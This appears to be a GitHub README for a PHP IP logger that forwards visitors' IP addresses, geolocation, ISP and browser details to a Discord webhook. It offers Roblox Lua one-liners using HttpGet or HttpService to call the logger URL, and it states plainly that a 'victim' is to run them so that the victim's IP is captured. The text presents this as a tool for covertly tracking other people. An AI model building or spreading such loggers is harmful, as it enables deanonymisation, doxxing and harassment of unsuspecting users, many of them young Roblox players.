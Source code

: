 # Webhook-IP-Logger
This is a PHP IP logger I made that sends the IP's to a Discord webhook.  
# Features
- Grabs the IP then gets info about it after that it sends it to a webhook you have entered.  
- Gets Geo Location & ISP aswell as the browser
- Filters out bots
- ROBLOX Lua script for it (for exploits that have HttpGet or ROBLOX Studio)
# How to use it on ROBLOX
Step 1: Complete the tutorial above on getting an IP logger link, unless you have your own site.  
Step 2: Put the link of the IP logger in between the qoutations. Exploits is for a script that will only work on  
**Note: The victim will need to execute these scripts. Executing this yourself will only get your own IP.**  
**[Exploits]**  
```lua
game:HttpGet("Site Here")
```
**[Roblox Studio]**  
```lua
game:GetService("HttpService"):GetAsync("Site Here")
```
**[Example]**  
```lua
game:HttpGet("https://mysite.com/iplogger.php")
```
